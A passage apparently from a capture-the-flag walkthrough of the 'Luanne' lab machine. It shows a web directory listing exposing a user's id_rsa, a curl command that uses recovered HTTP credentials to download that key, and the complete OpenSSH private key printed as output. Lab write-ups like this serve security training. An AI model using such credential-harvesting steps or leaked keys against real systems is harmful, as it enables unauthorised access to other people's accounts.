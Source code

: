 ```
<!DOCTYPE html>                                                                                                    
<html><head><meta charset="utf-8"/>                                                                                
<style type="text/css">
table {
        border-top: 1px solid black;
        border-bottom: 1px solid black;
}
th { background: aquamarine; }
tr:nth-child(even) { background: lavender; }
</style>
<title>Index of ~r.michaels/</title></head>
<body><h1>Index of ~r.michaels/</h1>
<table cols=3>
<thead>
<tr><th>Name<th>Last modified<th align=right>Size
<tbody>
<tr><td><a href="../">Parent Directory</a><td>16-Sep-2020 18:20<td align=right>1kB
<tr><td><a href="id_rsa">id_rsa</a><td>16-Sep-2020 16:52<td align=right>3kB
</table>
</body></html>
```
Now we can curl the private key:  
```
curl --user webapi_user:iamthebest http://127.0.0.1:3001/~r.michaels/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
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
```